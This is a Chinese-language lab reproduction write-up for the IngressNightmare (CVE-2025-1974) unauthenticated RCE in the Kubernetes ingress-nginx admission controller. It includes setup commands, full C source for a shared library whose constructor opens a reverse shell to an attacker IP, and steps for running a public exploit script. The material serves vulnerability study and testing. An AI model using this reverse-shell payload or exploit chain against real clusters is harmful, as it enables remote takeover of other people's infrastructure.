 # IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）



Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求



需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE          
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE 
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE               

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。



更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 k8s 环境， 这里我方便使用 k3s 进行替代：

```bash
docker compose up -d
```

等待一段时间后环境启动成功， 使用 `docker exec` 子命令进入到容器内部执行 `./exploit/init.sh`

```sh
$ docker ps -a  |grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"        3 minutes ago   Up 3 minutes                0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

# swing @ sw in ~/Desktop/vulhub/ingress-nginx/CVE-2025-1974 on git:master x [16:49:44]
$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

当成功初始化后，会进入到一个名为exploit-pod的容器里。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```
修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。
```
cd /exploit
python3 exploit.py
```
可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)	

## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main

